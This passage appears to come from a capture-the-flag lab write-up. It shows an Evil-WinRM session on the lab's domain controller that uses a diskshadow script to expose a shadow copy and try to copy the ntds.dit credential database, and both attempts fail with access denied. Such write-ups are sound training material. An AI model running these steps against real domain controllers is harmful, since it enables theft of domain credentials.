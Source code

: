 This runs successfully until the copy \windows\ntds\ntds.dit part which fails with access denied.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow.exe /s C:\Users\svc_backup\Documents\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  6/18/2020 5:45:46 PM

-> set context persistent nowriters
-> set metadata C:\users\svc_backup\metadata.cab
The existing file will be overwritten.
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {ebe619a1-52dc-4ad7-96fc-0ddbfd25eb9b} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {96d91f91-342c-4973-8376-c43b9fae45ff} set as environment variable.

Querying all shadow copies with the shadow copy set ID {96d91f91-342c-4973-8376-c43b9fae45ff}

        * Shadow copy ID = {ebe619a1-52dc-4ad7-96fc-0ddbfd25eb9b}               %someAlias%
                - Shadow copy set: {96d91f91-342c-4973-8376-c43b9fae45ff}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 6/18/2020 5:45:47 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy18
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %someAlias% k:
-> %someAlias% = {ebe619a1-52dc-4ad7-96fc-0ddbfd25eb9b}
The shadow copy was successfully exposed as k:\.
-> exec cmd.exe /c copy k:\windows\ntds\ntds.dit c:\windows\temp\ntds.dit
diskshadow.exe : Access is denied.
    + CategoryInfo          : NotSpecified: (Access is denied.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
        0 file(s) copied.
The command script returned failure exit code 1.
The command script failed.
```



When trying the copy command on the cmd shell, the same error is received. This means that the file cannot be access in this way.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> copy k:\windows\ntds\ntds.dit c:\windows\temp\ntds.dit
Access to the path 'k:\windows\ntds\ntds.dit' is denied.
At line:1 char:1
+ copy k:\windows\ntds\ntds.dit c:\windows\temp\ntds.dit
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (k:\windows\ntds\ntds.dit:FileInfo) [Copy-Item], UnauthorizedAccessException
    + FullyQualifiedErrorId : CopyFileInfoItemUnauthorizedAccessError,Microsoft.PowerShell.Commands.CopyItemCommand

```
The file needs to be accessed in a backup service context and not a user context.
